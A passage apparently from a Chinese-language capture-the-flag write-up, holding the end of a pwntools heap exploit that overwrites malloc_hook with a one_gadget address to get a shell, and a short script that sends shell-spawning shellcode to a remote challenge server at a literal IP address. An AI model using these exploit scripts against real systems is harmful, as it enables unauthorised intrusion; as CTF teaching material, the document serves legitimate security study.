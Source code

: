   ```
      #更改大小
  
      allocate(0x300) #1
      allocate(0x10) #4
      allocate(0x10) #5
      allocate(0x10) #6
      payload = p32(0xffffffff) + p32(0) + p64(0x80)
      fill(6, payload)
  
      #申请内存
      delete(2)
      payload = b'a'*0x10 + p32(0xffffffff) +p32(0)+p64(0x10)+p64(addr_1 + 0x3a0)
      fill(3, payload)
      allocate(0x10) #2
      allocate(0x80) #7
  
      #更改malloc_hook
      payload = b'a' * 0x48 +p64(one_gadget)
      fill(7,payload)
  
      #调用malloc_hook
      giacomo.sendlineafter('5.exit\n','1')
      giacomo.interactive()
  
  
  main()
  
  ```
  
### shellcode

  用汇编语言编写

```
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
content = 0

if content == 1:
    giacomo = process('./shellcode')
else:
    giacomo = remote("43.136.137.17", 3914)

def main():
    payload = asm(shellcraft.sh())
    giacomo.sendline(payload)
    giacomo.interactive()

main()

```
